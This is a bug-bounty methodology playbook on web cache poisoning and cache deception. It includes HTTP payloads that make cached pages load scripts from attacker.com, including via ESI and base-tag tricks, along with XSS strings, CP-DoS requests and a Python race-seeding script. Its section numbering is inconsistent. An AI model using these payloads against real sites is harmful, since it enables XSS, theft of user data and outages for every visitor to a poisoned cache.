



*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*

# Web Cache Poisoning & Deception : Master Playbook

> **Goal:** Corrupting the shared cache (Poisoning) or tricking the cache into storing private user data as public (Deception).
> **Triggers:** Reverse proxies, CDNs (Cloudflare, Akamai), `X-Forwarded-*` headers, static file extensions (.js, .css), or path confusion.
> **Context:** Imagine an office vending machine (The Cache). 
> - **Poisoning**: You put a sticker over the "Coffee" button that says "Poisoned Mud." Everyone who presses it after you gets mud. 
> - **Deception**: You trick a coworker into pressing the "Pay Stub" button and the machine saves their slip. You then walk up and "order" that slip to read their private data.
> **Hacker Mindset:** "The cache is a middle-man that is trying to save time. I'll trick it into saving my malicious payload for everyone, or saving someone else's secrets for me."

---

## 0. Exploit Selection Search Tree
*Use this logic to triage the 40+ cache scenarios based on your current observation:*



1.  **Is the application reflecting an unkeyed header (like `X-Forwarded-Host`) in the response?**
    *   **Yes** → Use **[[#6.1 The Unkeyed Header Hijack]]** (Classic Poisoning).
2.  **Do you want to "brick" the site for everyone by caching an error page (400/405)?**
    *   **Yes** → Use **[[#14.1 HTTP Header Oversize (HHO)]]** (CP-DoS).
3.  **Is the backend a legacy framework supporting hidden logic (Semicolons or Fat GETs)?**
    *   **Yes** → Use **[[#8.1 Semicolon Delimiters]]** or **[[#9.1 The "Fat GET" Poison]]**.
4.  **Can you access a private page by appending a static extension (e.g., `/settings.js`)?**
    *   **Yes** → Use **[[#5.1 The Static Extension Trap]]** (Cache Deception).
5.  **Is the application using a modern framework (Spring/Sitecore) with complex path parsing?**
    *   **Yes** → Use **[[#35.1 Framework Path Confusion (Matrix Variables)]]** or **[[#11.1 The Parallel-Packet Race]]**.
6.  **Are you starting from scratch and need to find "hidden" unkeyed inputs?**
    *   **Yes** → Use **[[#4.2 Matrix Parameter & Path Confusion]]**.
7.  **Can you use a high-speed race condition to "seed" the cache with a poisoned variant?**
    *   **Yes** → Use **[[#11.1 The Parallel-Packet Race]]**.
8.  **Does the app use GraphQL? Can you smuggle a second query into a cached batch request?**
    *   **Yes** → Use **[[#16.2 Batch Query Poisoning (Array Smuggling)]]**.
9.  **Can you inject Edge-Side Includes (ESI) tags to execute code at the CDN edge?**
    *   **Yes** → Use **[[#28.1 ESI Parameter Poisoning (The Edge RCE)]]**.
10. **Can you force a poisoned response to persist in the browser's Disk Cache?**
    *   **Yes** → Use **[[#10.1 Disk Cache Persistence]]**.
11. **Is the CDN performing an H2-to-H1.1 downgrade that creates a desync?**
    *   **Yes** → Use **[[#23.1 H2 to H1.1 Downgrade Poisoning]]**.

---

## 1. Professional Methodology: Summary Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Header Poisoning**| Poisoning the well. | `X-Forwarded-Host` reflection.| Payload fires without the header. | **High ($1.5k+)** |
| **Cache Deception** | Stealing the receipt. | `.js` extension on private URL. | You see victim's CSRF/PII. | **Critical ($3k+)** |
| **CP-DoS** | Bricking the vending machine.| Large headers trigger 400. | Site is down for all users. | **Medium/High ($800+)** |
| **Fat GET** | Hiding mud in the pocket. | Body priority over URL. | Cached XSS via GET request. | **High ($2k+)** |
| **WAF Seeding** | The "Race" to the front. | Sync timing hits. | WAF-bypassed XSS in cache. | **Critical ($5k+)** |


---

## 2. Why It Happens: Core Logic

### 2.1 The Middle-Man Trap
Web Caches are designed to save time by storing "static" responses and serving them to multiple users. Caching vulnerabilities occur when there is a mismatch between what the cache thinks belongs in a unique response (the "Cache Key") and what the backend server actually uses to build that response (unkeyed inputs).

### 2.2 Diagnostic Checklist (Hunter Questions)
*   [ ] **1. Is there a cache present?**
    - *Ask*: Do I see `X-Cache: HIT` or `CF-Cache-Status` headers?
*   [ ] **2. Can I break the cache key?**
    - *Ask*: Does adding `?cb=123` or `?anything=1` change the `X-Cache` to `MISS`?
*   [ ] **3. Does the app reflect headers?**
    - *Ask*: If I send `X-Forwarded-Host: random.com`, does it appear in the HTML or a script source?
*   [ ] **4. Can I trigger an error?**
    - *Ask*: Does sending a 10KB header trigger a 400 Bad Request? If so, does that 400 get cached for everyone?

## 3. Methodology & Mindset

### 3.1 The Hunter's Pre-Flight Checklist
Before you start throwing payloads, ask yourself these "State of the Cache" questions:
*   [ ] **Is there a Cache?** Look for `X-Cache`, `CF-Cache-Status`, or `HIT` headers.
*   [ ] **What is the TTL?** Check the `Age` and `max-age`. Is the window 10 seconds or 10 minutes?
*   [ ] **Is the page dynamic?** Does it reflect headers (User-Agent, X-Forwarded-Host) or cookies?
*   [ ] **Can I break the Cache Key?** Does adding a random query parameter `?cb=123` change the `X-Cache` to `MISS`?

## 4. Discovery: Mapping the Middle-Man

### 4.1 Cache Indicators & Headers
Before you can poison a cache, you must confirm it exists. Look for these headers in the response:

*   **X-Cache**: `HIT` (served from cache) vs `MISS` (fetched from server).
*   **CF-Cache-Status**: (Cloudflare specific) `HIT`, `MISS`, `DYNAMIC`, `REVALIDATED`.
*   **Age**: How many seconds the object has been in the cache. If this number increases on refresh, it's a `HIT`.
*   **Cache-Control**: `public` (Everyone can see), `private` (Only the user should see), `max-age` (how long it stays).
*   **Vary**: Tells you what the cache uses to "identify" a unique request (e.g., `User-Agent`, `Accept-Encoding`).

### 4.2 Param Miner: The Hunter's Radar
The most efficient way to find "Unkeyed" inputs (headers the cache ignores but the server processes) is using the **Param Miner** extension.

1.  **Right-click** a request in Burp Suite.
2.  Select **Guess headers** or **Guess parameters**.
3.  Param Miner will systematically try thousands of headers (like `X-Forwarded-Host`) and check if they change the response without changing the cache key.

---

---

## 5. Web Cache Deception (WCD) Mastery

### 5.1 The Static Extension Trap
The most common form of deception. CDNs are often told: *"If the URL ends in .js or .css, it's public—cache it for everyone!"*

*   **The Workflow**:
    1.  Attacker finds a sensitive page: `https://target.com/api/user/settings`.
    2.  Attacker appends a static extension: `https://target.com/api/user/settings/style.css`.
    3.  **The Result**: If the backend ignores the `/style.css` part and still shows the user settings, the CDN (seeing `.css`) will cache that private settings page.
    4.  **The Theft**: Attacker sends the link to the victim. Once the victim clicks it, the attacker visits the same link and retrieves the victim's settings from the cache.

### 4.2 Matrix Parameter & Path Confusion
If a simple extension doesn't work, try these "Confusion" variants to trick the parser:

*   **Matrix Parameters**: `/settings;a.css` (Common in Spring/Java).
*   **Double Dot Mastery**: `/settings/%2e%2e/test.js`
*   **Null Byte Truncation**: `/settings%00.js` (Bypasses some older Nginx/LiteSpeed configs).
*   **Non-Standard Extensions**: Try `.avif`, `.webp`, `.map`, or `.json` if `.js` is blocked.

---

---

## 6. Web Cache Poisoning: Unkeyed Header Basics

### 6.1 The Unkeyed Header Hijack
This is the classic "Mud in the Vending Machine" attack.

*   **Unkeyed Headers**: These are headers like `X-Forwarded-Host`, `X-Host`, or `Forwarded`.
*   **The Chain of Destruction**:
    1.  **The Request**: Attacker sends a request with a malicious header.
        ```http
        GET /home HTTP/1.1
        Host: target.com
        X-Forwarded-Host: attacker.com
        ```
    2.  **The Reflection**: The backend uses the header to build a link:
        `<script src="https://attacker.com/logic.js"></script>`
    3.  **The Poisoning**: The Cache server sees `GET /home` and `Host: target.com`. It ignores the `X-Forwarded-Host`. It thinks: *"This is the standard /home page result,"* and saves the version with the attacker's script.
    4.  **The Victim**: Every user who visits `target.com/home` now loads the script from **attacker.com**.

### 6.2 Targeting Specific Variants (The Vary Header)
If the response contains `Vary: User-Agent`, your poison will only work for users with the **exact same browser** as the one you used to poison it.
> **Hunter Tip**: If you target a high-traffic site, use a common User-Agent (like the latest Chrome on Windows) to maximize the number of victims hit.

---

## 7. URL Discrepancies (WHATWG vs. RFC)

### 7.1 The "Rule Book" Discrepancy
There isn't just one way to read a URL. Browsers and modern CDNs often follow the **WHATWG** specification, while backend servers (Python, Java, PHP) might follow the older **RFC 2396/3986**. This gap allows you to trick the cache into using one key while the server responds with a different resource.

### 6.2 Fragment/User-Info Confusion
*   **The Payload**: `https://trusted.com#@attacker.com`
    *   **Backend View**: Sees `trusted.com` and ignores everything after the `#` (fragment).
    *   **Cache View**: Might see `@attacker.com` as the primary host if it ignores the `#` during key generation.
*   **The Dot-Colon Trick**: `http://trusted.com:.attacker.com`
    *   Depending on the parser, the colon might be treated as part of the host or a port, allowing subdomain filter bypasses.

### 6.3 Static Resources & Path Traversal
Many caches are configured to aggressively cache anything inside `/static/` or `/assets/` directories.
*   **The Trap**: `/home/..%2fstatic/something`
*   **The Logic**:
    1.  The CDN sees `/static/something` and decides to cache the response.
    2.  The backend server normalizes the path to `/home`.
    3.  **Impact**: The CDN now serves the content of the `/home` page (potentially containing user data) to anyone who visits `/static/something`.

---

## 8. Parameter Cloaking (Semicolon & Encoded Bypasses)

### 8.1 Semicolon Delimiters
Some frameworks (Ruby on Rails, Spring, Akamai) allow using a semicolon (`;`) as a parameter separator instead of an ampersand (`&`).

*   **The Attack**: `?keyed_param=1;unkeyed_param=malicious`
*   **Why It Works**: The cache server only sees one parameter (`keyed_param=1;unkeyed_param=malicious`) and includes it in the key. The backend server splits them at the `;` and processes `unkeyed_param=malicious` separately.
*   **Result**: You successfully injected an unkeyed input into a keyed slot.

### 7.2 Keyed Parameter Encoding
Try URL-encoding part of a keyed parameter name.
*   **The Injection**: `?siz%65=0&size=100`
*   **The Logic**: The cache key might only include the literal `size` parameter. The backend, however, might decode both and treat the first one (`siz%65` -> `size`) as the active value, overwriting the legitimate one.

---

## 9. The "Fat GET" Oracle

### 9.1 The "Fat GET" Poison
A "Fat GET" is a `GET` request that includes a `Content-Length` and a request body—something normally reserved for `POST`.

*   **The Vector**:
    ```http
    GET /contact?report=innocent HTTP/1.1
    Host: target.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 22

    report=ALBINO_WAX_XSS
    ```
*   **Why It Works**: 
    1.  The **Cache** ignores the body and uses `/contact?report=innocent` as the key.
    2.  The **Origin Server** (like GitHub or Rails apps) might process the body and prioritize the `report` value from the body over the URL.
    3.  **Impact**: The cache stores the response generated by the body payload (`ALBINO_WAX_XSS`) but serves it to anyone visiting the "innocent" URL.

---

## 10. Advanced Chain: Chrome Disk Cache to XSS

### 10.1 Disk Cache Persistence
Modern browsers have two main caches: **bfcache** (Back/Forward Cache, which is a RAM snapshot) and **Disk Cache** (which stores actual resources). If you can force the browser to use the Disk Cache during a back-navigation, you can execute a poisoned response even if the live server is fixed.

*   **The Workflow**:
    1.  **Disable bfcache**: Open the target page using `window.open()` from a malicious site. This creates a `window.opener` reference which often disables bfcache in Chrome.
    2.  **Seed the Cache**: Navigate to a URL that returns a poisoned 500 error or malicious JSON (e.g., `/api/token`).
    3.  **The Pivot**: Navigate away, then call `history.back()`.
    4.  **Result**: Chrome renders the content directly from the **Disk Cache**, executing the malicious payload in the context of the target domain.

---

## 11. Advanced Chain: WAF-Assisted Cache Seeding

### 11.1 The Parallel-Packet Race
Some CDNs hide cache indicators or use complex "Shield" layers. You can use a parallel request race (Single-Packet-Mode) to "seed" a poisoned variant of the main HTML.

*   **The Recipe**:
    1.  **惡意的 User-Agent**: Prepare a payload in your `User-Agent` (e.g., `</script><script>alert(1)</script>`).
    2.  **Parallel Send**: Use Burp Repeater to send two requests simultaneously:
        - **Req 1**: GET a static asset (e.g., `/style.css`) while sending the malicious header.
        - **Req 2**: GET the main page (`/`) immediately after.
    3.  **Why It Works**: The CDN/WAF routing race often results in the auto-cached `.js`/`.css` request refreshing the cache variant for the entire origin, seeding your poisoned UA reflection into the cached HTML.

---

## 12. Framework Mastery: Sitecore Cache Poisoning

### 12.1 Unauthenticated HtmlCache Writes
Sitecore (Enterprise CMS) has a specific vulnerability in its pre-auth XAML handlers that allows attackers to write directly to the `HtmlCache`.

*   **The POST Payload**:
    ```http
    POST /-/xaml/Sitecore.Shell.Xaml.WebControl HTTP/1.1
    Content-Type: application/x-www-form-urlencoded

    __PARAMETERS=AddToCache("your_key","<html>payload</html>")&__SOURCE=ctl00&__ISEVENT=1
    ```
*   **Impact**: This manually injects HTML into the Sitecore cache. Once you identify the cache key for a legitimate page, you can overwrite it with your malicious content.

---

## 13. WAF Evasion & Delivery

### 13.1 HTML Base Tag Hijacking
If a WAF filters `<script>` or `onerror` but allows the `<base>` tag, you can hijack all relative resource loads on the page.

*   **The Vector**: `<base href="https://attacker.com/">`
*   **The Logic**:
    1.  The victim loads the poisoned page containing your `<base>` tag.
    2.  The page attempts to load its standard, relative scripts: `<script src="/assets/app/main.js"></script>`.
    3.  Because of the hijacked base, the browser instead requests: `https://attacker.com/assets/app/main.js`.
*   **Result**: The attacker serves a malicious `main.js`, achieving full XSS without ever injecting a script tag into the target's cache.

### 12.2 External Script References
Always prefer `<script src=//attacker.com/x.js>` over inline scripts. WAFs frequently inspect the *content* inside `<script>` tags but may ignore the tag if it points to a relative-looking or whitelisted-looking path.

---

## 14. Cache-Poisoned Denial of Service (CP-DoS)

### 14.1 HTTP Header Oversize (HHO)
Most servers have a limit on how large individual headers or the total header block can be (e.g., 8KB for Nginx/Apache). If the CDN/Cache server supports a *larger* limit than the backend origin, you can trigger a 400 error that gets cached.

*   **The Attack**: Send a request with a massive, unkeyed header.
    ```http
    GET /home HTTP/1.1
    Host: target.com
    X-Oversize: [5,000 bytes of data]
    ```
*   **Logic**: 
    1.  The CDN accepts the request (as it's under its 10KB limit).
    2.  The Backend rejects the request with a **400 Bad Request** (as it exceeds its 4KB limit).
    3.  The CDN **caches** this 400 error for the `/home` page.
*   **Impact**: Every user visiting `/home` gets a "Bad Request" error until the cache expires.

### 13.2 HTTP Meta Character (HMC)
Injecting control characters into headers to break the backend parser.

*   **The Vector**: `X-Meta-Header: Value\n\r`
*   **Why It Works**: Some backend parsers will crash or return a 400 error when encountering a newline character in a header value. If the CDN forwards this without sanitization, the resulting error is cached.

### 13.3 HTTP Method Override (HMO)
Forcing the server to "think" it's receiving a forbidden method.

*   **The Attack**: `GET /static/index.html HTTP/1.1 | X-HTTP-Method-Override: POST`
*   **Result**: The server treats the request as a `POST` to a static page, returning a **405 Method Not Allowed**. The CDN caches this 405 error, DoS-ing the static page.

---

## 15. Infrastructure-Level Edge Cases

### 15.1 Long Redirect DoS
*   **The Concept**: Use a redirect to build a URL so massive it exceeds the cache server's URI limit.
*   **Example**: `GET /login?x=veryLongURL`
    1.  The app redirects: `Location: /login/?x=veryLongURL`.
    2.  If the redirect response is cached, the second request fetches a URL so long it triggers a **414 Request-URI Too Large** error. 
    3.  If the cache stores the 414 error, the page is DoS'd.

### 14.2 Host Header Case Normalization
The `Host` header should be case-insensitive, but some CDNs use it for the cache key while the backend requires it to be lowercase.
*   **The Attack**: `Host: Target.com` (note the capital T).
*   **Result**: The backend might return a **404 Not Found** because it doesn't recognize the mixed-case host, and the CDN caches this 404.

### 14.3 Path Normalization Discrepancies
*   **The Trick**: `/api/v1%2e1/user`
*   **Discrepancy**: The cache server treats the URL-encoded dot `%2e` as part of a unique key, while the backend server decodes it, realizes the path is malformed (`v1.1` instead of `v1`), and returns a 404.

### 14.4 Illegal Header Fields (Akamai/RFC7230)
*   **Akamai Special**: Akamai proxies sometimes forward headers with illegal characters (like `\`). 
*   **Vector**: `X-Illegal-Header\: Value`
*   **Result**: Akamai forwards the header; the backend returns a **400 Bad Request**; Akamai caches the error as long as `Cache-Control` isn't set to private.

---

## 16. Automation & Tooling

### 16.1 Automation Toolbox
When hunting at scale, manual probing for unkeyed inputs is too slow. Use these specialized scanners:

*   **Web Cache Vulnerability Scanner (wcvs)**: 
    *   *Usage*: `wcvs -u https://target.com`
    *   *Capabilities*: Checks for HHO, HMC, HMO, and standard parameter mirroring.
*   **Toxicache**:
    *   *Usage*: `toxicache -u https://target.com`
    *   *Capabilities*: A high-speed Golang scanner for mirror-based poisoning discovery.
*   **Web Cache Entos**: 
    - Expert-level Burp extension for identifying complex cache-key discrepancies.

---

## 17. GraphQL Caching & Batch Poisoning

### 17.1 GraphQL over GET
While many GraphQL requests are `POST`, high-performance apps often use `GET` for queries to enable CDN caching.
*   **The Vector**: `GET /graphql?query=query { user(id: 123) { name } }`
*   **The Poison**: Manipulate the `query` or `variables` parameter to include unkeyed logic or metadata reflections.

### 16.2 Batch Query Poisoning (Array Smuggling)
Some GraphQL servers allow batching queries in an array.
*   **The Attack**: `GET /graphql?query=[{ "query": "..." }, { "query": "..." }]`
*   **The Logic**: 
    1.  The first query is a legitimate, high-traffic query that matches the cache key (e.g., `getPublicConfig`).
    2.  The second query contains a malicious `__typename` reflection or a query that triggers an error.
    3.  **Result**: The cache server stores the combined response or the error response from the second query, poisoning the "innocent" config endpoint for all users.

---

## 18. HTTP Range-Header CP-DoS

### 18.1 HTTP Range-Header CP-DoS
The `Range` header is used to request specific parts of a file (e.g., bytes 0-100). If handled incorrectly by the cache, it can be used to "poison" the entire file with a malformed chunk.

*   **The Attack**: `GET /video.mp4 | Range: bytes=0-1, 0-2, 0-3...` (massive overlapping ranges).
*   **Logic**:
    1.  The Attacker sends a request with an absurd or malformed `Range` header.
    2.  The Backend Origin returns a **416 Range Not Satisfiable** or a malformed **206 Partial Content**.
    3.  The CDN **caches** this error or malformed chunk as the "valid" version of `/video.mp4`.
*   **Impact**: Every user attempting to stream the video or download the file receives the cached error or the broken fragment.

---

## 19. Defensive Evasion Oracles

### 19.1 Defensive Evasion Oracles: Origin Discovery
If you are blocked by a heavy Edge WAF (Cloudflare/Akamai), your best bet is to find and talk to the **Origin IP** directly.

*   **Fingerprinting via Cache Headers**:
    - **X-Served-By / X-Cache-Hits**: If these values increase or change based on your location/UA, it confirms you are hitting a specific edge node.
    - **Host Poisoning for Discovery**: Send a request with a fake `Host: attacker.com`. If the backend reflects its internal hostname or IP in a `via` or `X-Forwarded-For` header within the error page, you've found the target's internal identity.

### 18.2 Bypassing Edge WAFs (Internal Host Injection)
1.  Find the **Origin IP** of the target.
2.  Send the poisoned request (e.g., `X-Forwarded-Host: poisoned`) directly to the IP.
3.  Set the `Host` header to the internal domain recognized by the backend (e.g., `internal.target.com`).
*   **Result**: You bypass the Global Edge WAF and poison the **Internal Cache** (Varnish/Nginx) or the Backend's own caching layer. The Edge WAF will then unknowingly fetch and serve your poisoned content.

---

## 20. Cache-Key Normalization Bypasses

### 20.1 Case-Sensitive Key Normalization
Many CDNs (Cloudflare, Akamai) normalize the `Host` header to lowercase before calculating the cache key. However, some backend frameworks or legacy servers (like IIS or custom Java filters) might be case-sensitive.

*   **The Attack**: `Host: tArGeT.cOm`
*   **The Logic**:
    1.  The CDN lowercases the host to `target.com` and checks the cache.
    2.  If it's a `MISS`, it forwards the original `tArGeT.cOm` to the backend.
    3.  The backend fails to recognize the host or triggers a specific route, returning an error (e.g., 404 or a default brand page).
    4.  The CDN **caches** this error under the `target.com` key.
*   **Result**: The site is DoS'd for all users because the CDN thinks the "normal" page is a 404.

### 19.2 Query Parameter Ordering
Some caches ignore the order of query parameters (`?a=1&b=2` is the same as `?b=2&a=1`). 
*   **The Oracle**: If the backend processes parameters sequentially, you can use order manipulation to isolate specific backend worker nodes or trigger different logic while remaining under the same cache key.

---

## 21. DOM-Based Cache Poisoning & WebSockets

### 21.1 DOM-Based Cache Poisoning
This attack targets the browser's storage by poisoning a resource the browser uses to populate `localStorage` or `sessionStorage`.

*   **The Vector**: A cached JSON or JS file (e.g., `config.json`).
*   **The Payload**: `{"theme": "dark", "user_id": "<script>localStorage.setItem('admin','true')</script>"}`
*   **The Persistence**: Because the browser caches the poisoned `config.json` on disk, every time the user visits the site, the malicious script executes and modifies the local database, creating a "Perpetual XSS" that survives even after the server cache is cleared.

### 20.2 WebSocket Handshake Cache Poisoning
WebSockets start as an HTTP request with an `Upgrade` header. If an intermediary caches the **101 Switching Protocols** response, it can break the protocol swap.

*   **The Attack**: Injecting a malicious `X-Forwarded-Host` during the WebSocket handshake.
*   **The Disaster**: If the cache server stores the 101 response, it may attempt to "serve" that handshake to subsequent users. Since WebSockets are stateful point-to-point connections, serving a "cached" handshake fails immediately, effectively DoS-ing the site's real-time features.

---

## 22. Visual Mastery: Packet-Flow Oracles

### 22.1 Sequence: The Parallel-Packet Race (WAF Seeding)
This diagram illustrates how a race condition at the Edge allows an attacker to seed a poisoned variant into the main HTML cache.



### 21.2 Sequence: HHO CP-DoS (Header Oversize)


---

## 23. HTTP/2 to HTTP/1.1 Downgrade Poisoning

### 23.1 H2 to H1.1 Downgrade Poisoning
Modern CDNs often communicate with browsers via HTTP/2 (binary), but talk to backend origins via HTTP/1.1 (plain text). This translation (downgrade) creates a lucrative desync window.

*   **The Vector**: `:authority` vs `Host`.
*   **The Attack**: Submit a request with a valid `:authority` pseudo-header but a malicious `Host` header (or vice versa).
    ```http
    :method: GET
    :path: /
    :authority: trusted.com
    host: evil-host.com
    ```
*   **The Logic**:
    1.  The CDN uses the `:authority` for the cache key (mapping it to `trusted.com`).
    2.  During the H1.1 downgrade, the CDN might forward the `host` header as-is or append it.
    3.  The Backend Origin processes the text-based `host: evil-host.com`, generating a response for the attacker's domain (e.g., a redirect or reflected script).
    4.  The CDN **caches** this malicious response under the "trusted" H2 key.

---

## 24. CORS Cache Poisoning (Vary Evasion)

### 24.1 CORS Cache Poisoning
Crossing the streams of Caching and Cross-Origin Resource Sharing (CORS).

*   **The Problem**: If a backend reflects the `Origin` header in the `Access-Control-Allow-Origin` (ACAO) response, but the CDN doesn't include the `Origin` header in its cache key (no `Vary: Origin`).
*   **The Exploit**:
    1.  Attacker sends a request with `Origin: https://attacker.com`.
    2.  Backend reflects: `Access-Control-Allow-Origin: https://attacker.com`.
    3.  CDN caches the response **without** the `Origin` header in the key.
*   **The Payload**: Every subsequent user visits the page, and their browser receives the cached header explicitly allowing the attacker's domain to read the response via XHR/Fetch, bypassing the Same-Origin Policy.

---

## 25. Automation: Single-Packet-Mode Seeder (Python)

### 25.1 High-Speed WAF Seeding Script
Standard tools have jitter. Use this raw socket skeleton to hit the origin with precise microsecond timing for parallel race seeding.

```python
import socket
import ssl

# Target Configuration
HOST = 'target.com'
PORT = 443
PAYLOAD_UA = "</script><script>alert('Poisoned_by_Race')</script>"

# Construct Raw HTTP Requests
# Request 1: The Seeder (Static Asset)
req1 = (
    f"GET /assets/app.js HTTP/1.1\r\n"
    f"Host: {HOST}\r\n"
    f"User-Agent: {PAYLOAD_UA}\r\n"
    f"X-Forwarded-Host: attacker.com\r\n\r\n"
).encode()

# Request 2: The Target (Main Page)
req2 = (
    f"GET / HTTP/1.1\r\n"
    f"Host: {HOST}\r\n\r\n"
).encode()

# Secure Connection
context = ssl.create_default_context()
with socket.create_connection((HOST, PORT)) as sock:
    with context.wrap_socket(sock, server_hostname=HOST) as ssock:
        # Parallel Send
        ssock.sendall(req1 + req2)
        print("[+] Packets dispatched in single stream.")
        
        # Capture Response
        response = ssock.recv(4096).decode()
        if "Poisoned" in response:
            print("[!] POISONING SUCCESSFUL")
```

---

## 26. Smuggling-Assisted Cache Poisoning

### 26.1 Smuggling-Assisted Cache Poisoning (The Desync Bridge)
This is the ultimate convergence of Request Smuggling and Caching. It allows an attacker to "glue" a backend response for a sensitive resource to a frontend request for a public resource.

*   **The Attack (CL.TE / TE.CL)**:
    1.  Attacker smuggles a prefix request: `GET /api/user/private-keys HTTP/1.1`.
    2.  The frontend proxy (CDN) thinks it's still processing the first request (`GET /static/logo.png`).
    3.  The backend processes the smuggled request and returns the private data.
*   **The Poisoning**: 
    - The CDN/Cache server takes the private response and saves it as the "result" for `/static/logo.png`.
*   **Impact**: Every user who now attempts to load the site's logo (`/static/logo.png`) receives the cached private keys of the victim (or the attacker, depending on the race timing).

---

## 27. Hop-by-Hop Header Stripping

### 27.1 Hop-by-Hop Header Stripping (Security Downgrade)
Proxy servers are required by RFC 2616 to stop "Hop-by-Hop" headers from being forwarded. Critical security headers are usually "End-to-End," but an attacker can trick the proxy into treating them as Hop-by-Hop.

*   **The Vector**: `Connection: x-frame-options, strict-transport-security`
*   **The Logic**:
    1.  The Attacker sends a request with the `Connection` header containing the names of security headers.
    2.  The Cache Proxy (Intermediary) sees these in the `Connection` list and strips them from the response before caching it.
    3.  **Result**: The cache now stores a version of the page *without* HSTS or X-Frame-Options.
*   **Impact**: Permanent security downgrade for the entire site. Users become vulnerable to Clickjacking and SSL Stripping because the cache has "cleansed" the security protections.

---

## 28. Edge-Side Includes (ESI) Cache Poisoning

### 28.1 ESI Parameter Poisoning (The Edge RCE)
ESI is a markup language used by CDNs (Akamai, Fastly, Varnish) to assemble dynamic content at the Edge. If you can poison the cache with an ESI tag, the CDN itself becomes your execution engine.

*   **The Injection**: Use a standard unkeyed header (like `X-Forwarded-Host`) to reflect a value into the HTML.
*   **The Payload**: `X-Forwarded-Host: <esi:include src="http://attacker.com/evil.js"/>`
*   **The Logic**:
    1.  Attacker poisons the cache for `index.html` with the ESI tag.
    2.  Legitimate User visits `index.html`.
    3.  The CDN fetches the "poisoned" file from its own cache, sees the `<esi:include>` tag, and (following its own rules) fetches the script from `attacker.com`.
    4.  The CDN merges the malicious script into the page and serves it to the user.
*   **Impact**: Zero-interaction XSS/SSRF that is executed by the infrastructure itself. This is often inescapable as the payload is handled before the browser even sees it.

---

## 29. Vary Bombing (Cache Exhaustion DoS)

### 29.1 Vary Bombing (Key Space Exhaustion)
This attack targets the CDN's own infrastructure and storage capacity by abusing headers included in the cache key.

*   **The Vector**: `Vary: User-Agent` (or any high-entropy header).
*   **The Attack**: Stream millions of unique, randomized values for the `User-Agent` header using a script or Burp Intruder.
*   **The Logic**:
    1.  The CDN is configured to cache different versions of the page for every `User-Agent`.
    2.  By sending millions of unique UAs, the attacker forces the CDN to create millions of unique cache entries for a single URL.
    3.  **Result**: The CDN's cache storage fills up, forcing it to "evict" legitimate files. Simultaneously, the Backend Origin is flooded with cache MISSES, causing it to crash (Origin DoS).

---

## 30. Secondary Context Cache Poisoning

### 30.1 Internal Architecture Caches
Cache poisoning isn't just for Layer 7 CDNs. It applies to any system that stores and reuses computed data.

*   **PDF Rendering Engines**: If the app generates PDFs from HTML, it may cache the generated PDF for performance. You can use standard poisoning to inject a malicious tag (like a giant image or SSRF payload) into the HTML template. The backend caches the poisoned PDF and serves it to all subsequent users.
